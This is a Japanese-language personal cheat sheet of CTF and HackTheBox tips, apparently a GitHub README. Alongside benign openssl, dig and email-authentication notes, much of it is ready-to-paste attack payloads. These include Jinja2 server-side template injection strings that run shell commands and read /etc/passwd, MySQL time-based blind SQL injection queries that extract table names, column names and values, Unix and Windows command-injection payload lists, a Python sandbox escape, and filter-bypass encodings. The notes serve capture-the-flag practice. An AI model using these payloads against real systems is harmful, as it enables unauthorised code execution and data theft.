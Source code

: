 # tips

CTF や HackTheBox で使う情報を自分用にまとめる。

## RSA

秘密鍵の中身を見る

```
openssl rsa -in <private-key.pem> -text -noout
```

公開鍵の中身を見る

```
openssl rsa -pubin -in <public-key.pem> -text -noout
```

## DNS

dig

```
dig <example.com> IN
dig <example.com> ANY
dig <example.com> TXT
```

## Phishing

- MX (Mail exchange record)
- SPF (Sender Policy Framework)
- DKIM (DomainKeys Identified Mail)
- DMARC (Domain-based Message Authentication, Reporting and Conformance)

## OSINT

- Google Dorks: https://www.exploit-db.com/google-hacking-database

  - ext: `ext:(doc | pdf | xls | txt)`
  - filetype: `filetype:log`
  - intext: `intext:"Control Panel"`
  - intitle: `intitle:"Manager"`
  - inurl: `inurl:index.php`
  - site: `site:ftp.*.*.*`

## SSTI

**Server Side Template Injection**

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

**Flask + Jinja2**

参考: https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti

```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

パラメータ利用 + シングルクォートなし

- `{{ }}`

```
{{().__class__.__bases__[0].__subclasses__()[213].__init__.__globals__.__builtins__[request.args.arg1](request.args.arg2).read()}}

# パラメータ例:
# - arg1=open
# - arg2=/etc/passwd
```

- `{% %}`

```
{% if request.application.__globals__.__builtins__.__import__(request.args.arg1).popen(request.args.arg2).read() == 1 %}{% endif %}

# パラメータ例:
# - arg1=os
# - arg2=sleep 3
```

| 参照パラメータ | 格納場所             |
| -------------- | -------------------- |
| GET            | request.args.arg1    |
| POST           | request.values.arg1  |
| Cookie         | request.cookies.arg1 |

## SQLi

**SQL Injection**

- LIKE: `%`, `*`

**MySQL**

| 説明       | SQL                         |
| ---------- | --------------------------- |
| コメント   | `-- ` or `#` or `/* ... */` |
| If         | CASE                        |
| 文字列結合 | &#124;&#124;                |
|            | CONCAT(x, y, ...)           |
|            | GROUP_CONCAT(x, y, ...)     |
| 部分文字列 | SUBSTRING(x, index, length) |
| 長さ       | LENGTH(stuff)               |

- Time based:

テーブル名取得

```
'or if(substring((select group_concat(table_name) from information_schema.tables where table_type='BASE TABLE'),1,1)='a',sleep(3),0)or'
```

カラム名取得

```
'or if(substring((select group_concat(column_name) from information_schema.columns where table_name='users'),1,1)='a',sleep(3),0)or'
```

値取得

```
'or if(substring((select group_concat(concat(id, ',', flag)) from users),1,1)='a',sleep(3),0)or'
```

**SQLite3**

| 説明                   | SQL                               |
| ---------------------- | --------------------------------- |
| コメント               | --                                |
| If                     | CASE                              |
| 文字列結合             | &#124;&#124;                      |
| 部分文字列             | substr(x,y,z)                     |
| 長さ                   | length(stuff)                     |
| シングルクォートの生成 | select substr(quote(hex(0)),1,1); |
| ダブルクォートの生成   | select cast(X'22' as text);       |

参考: http://atta.cked.me/home/sqlite3injectioncheatsheet

## Command Injection

**Unix Payloads**

```
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
;netstat -a;
;system('cat%20/etc/passwd')
|id
\n/bin/ls -al\n
a);id
%0Acat%20/etc/passwd
& ping -i 30 127.0.0.1 &
<?php system("cat /etc/passwd");?>
```

**Windows Payloads**

```
'
'"
"
"'
%0a
%0a%0d
eval('ls')
exec('ls')
system('ls')
| sleep 1
; sleep 1
& sleep 1
&& sleep 1`
```

Links:

- https://github.com/payloadbox/command-injection-payload-list

**Payloads with Python**

```
a=().__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']
a('os').popen('cat flag').read()
```

Bypass:

- to Hex: `(` => `\\x28`
- to Octal: `(` => `\50`

## Databases

- Default Passwords: https://cirt.net/passwords
- Exploit: https://www.exploit-db.com/

## Shodan:

- https://exploits.shodan.io/welcome

## Sites

- requestbin: https://requestbin.com/
